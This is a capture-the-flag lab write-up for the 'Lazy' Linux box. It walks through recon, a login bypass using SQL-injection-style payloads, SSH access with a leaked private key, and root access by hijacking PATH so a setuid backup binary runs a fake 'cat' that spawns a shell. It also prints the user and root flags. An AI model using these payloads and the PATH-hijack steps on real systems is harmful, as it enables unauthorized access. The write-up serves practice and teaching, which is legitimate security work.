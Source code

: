 # [cd ../](../index.md)

---

# Lazy writeup by M4t35Z

Name | Lazy
--- | ---
IP | 10.10.10.18
OS | Linux
Points | Medium(30)

---

# Recon
[nmap(fast)](recon/fast.nmap)  
[nmap(big)](recon/big.nmap)  

We have 2 ports open:  
`22 - ssh` and `80 - http`

## Web
[ffuf_comm.txt](recon/ffuf.txt)  
`/classes` seems interesting! But it's nothing

The page is just a login, register page
- Maybe sqli?
Try some!
```
admin '-- -
admin       <spaces>
admin=
```

And `admin=` worked!  
![](img/adminpage.png)  

And we have a [link](http://10.10.10.18/mysshkeywithnamemitsos) to the developer's `id_rsa`  
Just copy it -> save it -> use it!  

But wait wait wait we need a username too.  
Lets check the link again:  
*my ssh key with name `mitsos`*  
So we have a username `mitsos` and his id_rsa now we can log in!

# SSH

```
ssh -i id_rsa mitsos@10.10.10.18
```

And we got the flag from `user.txt`
```
d558e7924bdfe31266ec96b007dc63fc
```

## Privesc to `root`
We have a `peda` directory and a weird `backup` file  
Just run `./backup` -> it cats `/etc/shadow`  
Since we have peda on it we could run `gdb ./backup`  
Yaaaay a lil reversing challenge!  

`b main` means breaking the main fcn.  
`r` runs the program until breakpoint reached  
![](img/gdb.png)  
`si` step  
`x/s 0x80484d0` This returns `"cat /etc/shadow"`  
![](img/gdb2.png)  

So we have a cmd that is executing `cat`!
- No absolute path!!  
We could make a new file named `cat` and place it somewhere before the actual `cat` in `$PATH` and this program will execute the first one!  
![](img/path.png)

### Exploiting
Just make a file named `cat` and put inside what u want to be executed as root!
The most easy `/bin/sh`

But there is a problem!  
We cant write to default system paths  
BUT we can add paths!!!!
```
export PATH=`pwd`:$PATH
```
Now just run `./backup` and u can see this is a rootshell!!  

Cmds2run:
1. `cd ~`
2. `echo "/bin/sh" > cat`
3. `chmod +x cat`
4. ```
   export PATH=`pwd`:$PATH
   ```
5. `./backup`

# Got root and the root flag!
![](img/gotroot.png)  
```
990b142c3cefd46a5e7d61f678d45515
```
